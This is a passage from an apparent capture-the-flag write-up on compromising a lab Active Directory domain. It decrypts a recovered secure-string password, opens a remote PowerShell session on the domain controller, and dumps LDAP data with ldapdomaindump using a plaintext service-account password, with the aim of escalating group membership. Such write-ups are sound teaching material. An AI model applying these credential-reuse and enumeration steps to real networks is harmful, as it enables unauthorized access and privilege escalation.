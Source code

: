 ```
     25     2.53       5.41       0.00     596   0 csrss                                                                           10.128.1.53
      9     1.70       4.49       0.00     684   1 csrss                                                                           10.128.1.53
     32    17.25      22.66       0.00    3884   0 dfsrs                                                                           10.128.1.53
     12     2.52       7.71       0.00    2536   0 dfssvc                                                                          10.128.1.53
 
``` 

Using these exact credentials, we can try to Remote PowerShell into the Domain Controller (10.128.1.53)

```
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate
```

Now we have direct powershell access to that machine, and we have to try to insert our user (the one we created!) to a particular domain group, so that we can access Santa's secret sleigh document.  

##  ldapdomaindump

To get a better understanding of the global situation, we used [**ldapdomaindump**](https://github.com/dirkjanm/ldapdomaindump), a tool that gives us a lot of informations about the Active Directory we are interested in using LDAP. We used *elfu_svc* account. It is already installed on the remote linux installation.
```
ldapdomaindump  -u elfu.local\\elfu_svc -p Snow2021! 10.128.1.53
```
This outputs a series of files. We grabbed the .html files and opened them on our computers.  
You can get them here: [ch8_domain_users.html](./files/ch8_domain_users.html), [ch8_domain_groups.html](./files/ch8_domain_groups.html), [ch8_domain_computers.html](./files/ch8_domain_computers.html)

![(LDAPDomainDump output)](images/ADDumpFiles.png)
